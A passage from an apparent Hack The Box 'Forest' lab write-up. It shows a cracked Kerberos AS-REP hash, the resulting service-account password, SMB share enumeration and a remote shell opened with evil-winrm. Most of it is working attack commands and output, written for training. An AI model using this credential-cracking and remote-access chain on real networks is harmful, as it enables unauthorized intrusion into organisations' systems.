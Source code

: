 We just found the user **htb.local\svc-alfresco** (a service account) and its TGT; let's try to crack it


### JOHN THE RIPPER
```
root@kali:~/Documents/HTB-Labs/Forest# john --wordlist=/usr/share/wordlists/rockyou.txt Forest_TGT_svc-alfresco.txt > Forest_svc-alfrescoCreds.txt
Using default input encoding: UTF-8
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1g 0:00:00:05 DONE (2020-01-09 23:02) 0.1692g/s 691329p/s 691329c/s 691329C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/Documents/HTB-Labs/Forest# cat Forest_svc-alfrescoCreds.txt
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```

We have **svc-alfresco:s3rvice** credential pair. Let's test it and its permissions to SMB and at the same time see if these credentials are valid while enumerating what it has access to (I could've used *smbmap* too).


### SMBCLIENT
```
root@kali:~/Documents/HTB-Labs/Forest# smbclient -L //forest.htb/ -U 'HTB\svc-alfresco'
Enter HTB\svc-alfresco's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
root@kali:~/Documents/HTB-Labs/Forest# smbclient //forest.htb/C$ -U 'HTB\svc-alfresco'
Enter HTB\svc-alfresco's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Looks like I can enumerate shares but I do not have permissions to C$ Share through SMB. Let's try to test credentials/gain access through WinRM. To do this, you need to have [evil-winrm](https://github.com/Hackplayers/evil-winrm) installed. Worth going through its documentation as it is one of many other tools that are very versatile.


### EVIL-WINRM
```
root@kali:~/Documents/HTB-Labs/Forest# evil-winrm -i forest.htb -u svc-alfresco -p 's3rvice' -s ./ps1_scripts/ -e ./exe_files/

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


```